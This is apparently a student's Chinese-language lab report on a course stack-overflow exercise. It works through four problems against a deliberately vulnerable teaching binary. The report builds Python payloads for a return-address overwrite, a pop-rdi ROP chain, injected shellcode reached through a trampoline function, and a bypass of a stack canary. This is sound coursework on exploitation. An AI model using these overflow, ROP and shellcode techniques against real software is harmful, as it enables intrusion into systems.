







# 栈溢出攻击实验

姓名：陈子墨

学号：2024201501

## 题目解决思路


### Problem 1: 
**分析**：

main函数从传入的文件提取最多0x100=256个字节，调用func。

func预留了一个8字节的局部数组，调用strcpy。我们需要跳转到func1函数，地址为0x401216，它会输出"Yes!I like ICS!"并强制exit。

局部数组的存储位置是%rbp-0x8，因此需要8(局部数组)+8(Old %rbp)=16个字节的填充。

**解决方案**：

构造payload的代码为：

```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func1_address
```

**结果**：


### Problem 2:
**分析**：

func调用memcpy函数，尝试把0x38=56字节拷贝到仅有8字节的局部数组。

我们需要跳转到func2，地址为0x401216。但是仅跳转过去还不够，需要让%rdi里是0x3f8才能成功进入func2的打印字符串的分支。如何修改寄存器内容呢？

注意到“恰好”有个函数叫做pop_rdi。这个函数的行为是完全不正常、甚至会导致错误的。显然出题人为了我们攻击方便而强行写了一个这样的函数：



注意到刚好有`pop %rdi`然后`ret`的指令，可用于修改%rdi。

**解决方案**：

先让func返回时跳转到0x4012c7，此时弹出了返回地址，%rsp指向下一个字节。执行`pop %rdi`的时候再弹出8字节给%rdi，我们要让这8字节等于0x3f8。`ret`时又弹出8字节并跳转，我们要跳到func2。

构造payload的代码为：

```python
padding = b"A" * 16
pop_rdi_address = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
target_rdi= b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi_address + target_rdi + func2_address
```

**结果**：



### Problem 3: 
**分析**：

func预留一个局部数组在%rbp-0x20，大小为32。然后调用memcpy函数，尝试把0x40=64字节拷贝进去。

func1进行了一大堆movabs操作，实际上是构造了一个字符串”Your lucky number is 114"并输出。我们需要调用它，但前提是%edi中的值必须是0x72=114才能进行字符串的构造和打印，否则会跳转走。

注意到这一题中没有开启NXenabled，这意味着栈中的数据是可以执行的。我们需要写一段shellcode，内容为：修改%rdi并跳转到func1。

但是，由于ASLR技术会使栈的位置飘忽不定，我们没法知道栈中的shellcode的地址在哪。

但是出题人贴心地在func和func1之间写了一堆函数，其中包括：



jmp_xs函数读取了一个全局变量saved_rsp，将它加上0x10，然后跳转过去。而func刚好进行了将%rsp保存到saved_rsp的操作，saved_rsp+0x10恰好指向局部数组的开头！我们需要先跳转到jmp_xs的0x40133c，再借助它跳转到我们的shellcode。

**解决方案**：

需要往缓冲区开头写的shellcode（也即payload开头）为：

```
mov $0x72,%rdi 对应机器码48 c7 c7 72 00 00 00
mov $0x401216,%rax 对应机器码48 c7 c0 16 12 40 00
call %rax 对应机器码ff d0
```

构造payload的代码为：

```python
move_0x72_rdi = b"\x48\xc7\xc7\x72\x00\x00\x00"
move_0x401216_rax = b"\x48\xc7\xc0\x16\x12\x40\x00"
call_rax = b"\xff\xd0"
padding = b"A" * 24
jmp_xs_address = b"\x3c\x13\x40\x00\x00\x00\x00\x00"
payload = move_0x72_rdi + move_0x401216_rax + call_rax + padding + jmp_xs_address
```

然而运行结果是：



什么原因？

由于我覆盖了Old %rbp的值，因此func返回前，%rbp被赋值为AAAAAAAA。然后程序跳转到0x40133c，但由于该地址处是jmp_xs中间的一个语句，程序并没有进行jmp_xs开头的`push %rbp`和`mov %rsp,%rbp`，%rbp还是AAAAAAAA。又由于jmp_xs在跳转前需要将saved_rsp入栈并运算，于是试图将saved_rsp写到0x4141414141414141-0x8的位置，但这个地址可能是非法的，于是报出总线错误。

更改一下jmp_xs_address，改成jmp_xs函数开头而不是中间，这样可以靠`mov %rsp,%rbp`把%rbp改正常：

```python
move_0x72_rdi = b"\x48\xc7\xc7\x72\x00\x00\x00"
move_0x401216_rax = b"\x48\xc7\xc0\x16\x12\x40\x00"
call_rax = b"\xff\xd0"
padding = b"A" * 24
jmp_xs_address = b"\x34\x13\x40\x00\x00\x00\x00\x00"
payload = move_0x72_rdi + move_0x401216_rax + call_rax + padding + jmp_xs_address
```

**结果**：


**第二种解法**：

可以直接跳到func1输出字符串的部分，绕过func1检查%edi的语句。不过正如上面所示，需要给%rbp赋个好点的值。

```python
padding = b'A' * 32
fake_rbp = b'\x00\x36\x40\x00\x00\x00\x00\x00' # 0x403600
skip_check_addr = b'\x2b\x12\x40\x00\x00\x00\x00\x00' # 0x40122b
payload = padding + fake_rbp + skip_check_addr
```

为什么选0x403600作为%rbp的值呢？因为我发现：

将%rbp赋值为0x400000\~0x403000直接segmentation fault，应该是因为尝试写到代码段和只读数据段了。

将%rbp赋值为0x403100\~0x403200成功，应该是写到了数据段中。

将%rbp赋值为0x403300\~0x403500先输出成功信息然后再segmentation fault，应该是因为破坏了全局偏移表GOT，最后调用exit的时候出错。

将%rbp赋值为0x403600\~0x404000成功，应该是写到了bss段或是空白中。

将%rbp赋值为0x404100$^+$直接segmentation fault，应该是操作系统根本没分配这里的内存。

### Problem 4: 
**分析**：

main打印了三次，我们要输入三次。第三次的输入会传给func，易知这个输入只要等于0xffffffff，func就会调用func1，然后通关。

problem4设置了canary保护机制。在func1中，先将canary值放在%rbp-8的位置：



最后再检查%rbp-8处的值是否等于原值：



**解决方案**：

只需在第三次输入的时候输入-1。

**结果**：



## 思考与总结

在做Problem2时，我知道需要用`pop %rdi`这个代码片段将0x3f8弹出给%rdi，但我一开始没想通它们是怎么“联系”上的。我原本以为需要什么神奇的方法去赋值，后来我仔细想了一遍栈的变化才恍然大悟：这完全是靠%rsp的自然流动。

在做Problem3时，遇到的Bus error让我以为是代码写错了，后来才发现是因为偷懒直接跳到了jmp_xs函数的中间，导致%rbp寄存器里的值是乱的，访问了一个很诡异的内存地址。这让我明白，跳转地址不能随便选，还得考虑栈帧有没有建立好。

## 参考资料

